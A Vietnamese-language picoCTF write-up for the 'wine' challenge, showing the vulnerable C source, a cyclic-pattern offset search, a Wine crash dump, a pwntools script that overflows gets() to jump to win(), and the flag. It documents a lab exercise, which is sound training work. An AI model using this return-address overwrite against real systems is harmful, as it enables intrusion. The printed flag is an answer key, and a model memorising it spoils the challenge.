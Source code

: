 ## wine
# Description:
Challenge best paired with wine.

I love windows. 

Checkout my `program` running on a linux box. Unzip the archive with the password picoctf and connect with it using `nc saturn.picoctf.net 62306`
# Solution:

* Đầu tiên, check file source và ta thấy lỗ hổng tràn bộ đệm ở `gets()` trong hàm `vuln`.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

* Dùng gdb để debug và tìm được địa chỉ hàm `win()` 
```
0x00401530  win
```

* Tiếp theo cần phải xác định số byte cần để ghi đè.
* Tạo một chuỗi với 200 kí tự bằng `cyclic()`
```
>>> from pwn import *
>>> pattern = cyclic(200)
>>> print(pattern)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
```
* Truyền chuỗi này vào chương trình và thu được lỗi:
```
└─$ nc saturn.picoctf.net 62306
Give me a string!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:6261616b ESP:0064fe80 EBP:6261616a EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fdf0 EBX:00230e78 ECX:0064fde0 EDX:7fec48d8
 ESI:00000005 EDI:0021d6c0
Stack dump:
0x0064fe80:  6261616c 6261616d 6261616e 6261616f
0x0064fe90:  62616170 62616171 62616172 62616173
0x0064fea0:  62616174 62616175 62616176 62616177
0x0064feb0:  62616178 62616179 00230e00 0021d6c0
0x0064fec0:  008ba875 0b6be064 00000000 00000000
0x0064fed0:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x6261616b (0x6261616a)
0x6261616b: -- no code accessible --
Modules:
Module  Address                 Debug info      Name (5 modules)
PE        400000-  44b000       Deferred        vuln
PE      7b020000-7b023000       Deferred        kernelbase
PE      7b420000-7b5db000       Deferred        kernel32
PE      7bc30000-7bc34000       Deferred        ntdll
PE      7fe10000-7fe14000       Deferred        msvcrt
Threads:
process  tid      prio (all id:s are in hex)
00000008 (D) Z:\challenge\vuln.exe
        00000009    0 <==
0000000c services.exe
        0000000e    0
        0000000d    0
00000012 explorer.exe
        00000013    0
System information:
    Wine build: wine-5.0 (Ubuntu 5.0-3ubuntu1)
    Platform: i386
    Version: Windows Server 2008 R2
    Host system: Linux
    Host version: 6.5.0-1016-aws
```

* Để ý vào dòng "Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b)" nhận thấy chương trình đã bị crash do ko thể truy cập được địa chỉ 0x6261616b.
* Xác định số byte ít nhất cần để ghi đè
```
>>> cyclic_find(0x6261616b)
140
```

* Vậy xác định được địa chỉ hàm win và số bytes => file `exploit.py`
```
from pwn import *

p = remote("saturn.picoctf.net", 62757)

p.sendline(b'a'*140 + b'\x30\x15\x40\x00')

print(p.recvall())
```

Flag: `picoCTF{Un_v3rr3_d3_v1n_2ef42747}`